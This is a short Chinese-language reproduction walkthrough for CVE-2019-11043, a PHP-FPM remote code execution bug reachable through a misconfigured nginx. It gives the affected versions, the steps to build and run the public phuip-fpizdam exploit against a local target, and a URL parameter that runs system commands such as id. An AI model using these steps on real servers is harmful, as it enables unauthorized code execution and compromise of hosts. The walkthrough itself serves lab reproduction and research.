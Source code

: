# PHP-FPM执行任意代码 CVE-2019-11043

**利用条件：**nginx配置了fastcgi_split_path_info

**受影响系统：**PHP 5.6-7.x，Nginx>=0.7.31

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

```shell
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```

在当前文件下运行：

```shell
go run . "http://127.0.0.1:8080/index.php"
```

![image-20211122230315686](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211122230315686.png)

访问链接`http://192.168.47.128:8080/?a=id`


![image-20211122230236364](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211122230236364.png)

> 注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。